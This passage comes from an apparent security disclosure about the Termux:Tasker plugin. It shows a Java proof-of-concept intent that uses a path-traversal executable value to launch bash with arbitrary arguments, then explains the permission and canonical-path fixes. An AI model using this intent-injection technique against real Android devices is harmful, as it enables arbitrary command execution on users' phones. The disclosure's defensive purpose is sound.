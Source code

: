 Note that it does not require a plugin app to send intents to `FireReceiver`, but any app can send the intent using java. The [`Termux:Tasker Exploit`](/assets/posts/globals/general/2022-02-15-termux-apps-vulnerability-disclosures/Termux_Tasker_Exploit.tsk.xml) task does just that and uses `Tasker` java actions to emulate how a normal app would send an intent.

### 1. Proof Of Concept

```java
Intent intent = new Intent("com.twofortyfouram.locale.intent.action.FIRE_SETTING");
intent.setClassName("com.termux.tasker", "com.termux.tasker.FireReceiver");

Bundle bundle = new Bundle();
bundle.putString("com.termux.tasker.extra.EXECUTABLE", "../../../usr/bin/bash");
bundle.putString("com.termux.execute.arguments", "-c \"echo -n 'I am '; whoami; echo 'creating exploit-file'; touch exploit-file; echo 'finding exploit-file'; find . -name exploit-file 2>/dev/null; sleep 5;\"");
bundle.putBoolean("com.termux.tasker.extra.TERMINAL", true);
bundle.putInt("com.termux.tasker.extra.VERSION_CODE", 4);

intent.putExtra("com.twofortyfouram.locale.intent.extra.BUNDLE", bundle);
context.sendBroadcast(intent);
```

### 1. Fix

1. To send an intent to `FireReceiver` now [requires `com.termux.permission.RUN_COMMAND`](https://github.com/termux/termux-tasker/blob/v0.5/app/src/main/AndroidManifest.xml#L45), a `dangerous` runtime permission, to be granted to the calling app, which was [published by Termux app](https://github.com/termux/termux-app/blob/v0.118.0/app/src/main/AndroidManifest.xml#L16). The Tasker app already had requested the permission since `v5.9.3` for [`RUN_COMMAND` intent](https://github.com/termux/termux-app/wiki/RUN_COMMAND-Intent) before the `v0.5` release but other automation apps would have had to request the permission in later versions. ([`26da42f7`](https://github.com/termux/termux-tasker/commit/26da42f7))

2. The canonical path of the executable received by `FireReceiver` was [found](https://github.com/termux/termux-tasker/blob/v0.5/app/src/main/java/com/termux/tasker/FireReceiver.java#L70) before it was processed. The `v0.5` release officially added support to allow executables outside the `~/.termux/tasker` directory, but only if user had explicitly added `allow-external-apps=true` to `~/.termux/termux.properties`. ([`a5af3db3`](https://github.com/termux/termux-tasker/commit/a5af3db3))

This dual permission model enforced by android os permission and an app setting for absolute paths provides reasonable security against any arbitrary code execution or privilege escalation unless users grant the permission to untrusted apps.

Check `Termux:Tasker` [`README`](https://github.com/termux/termux-tasker#setup-instructions) for more details on new design.

### 1. Discussion

This kind of vulnerability partly existed because **any app can send intents to plugin apps** of automation apps like `Tasker`. The `Tasker` app and the [`locale`](https://github.com/twofortyfouram/android-monorepo) plugin protocol library it uses were created around `2008`. At that time runtime permissions didn't exist and security and possible dangerous uses of plugins may not have been a top priority/concern. However, it is indeed especially concerning for plugin apps that are granted privileged permissions like device admin/owner and accessibility services or even storage, location, etc. For example the [`SecureTask`](https://play.google.com/store/apps/details?id=com.balda.securetask) plugin needs to be set as device admin or even owner for a lot of its features. If a user has installed the app on their phone and have granted the device admin permission to `SecureTask`, any app could send intents to it directly without going through Tasker to run privileged commands, including **wiping the device**.
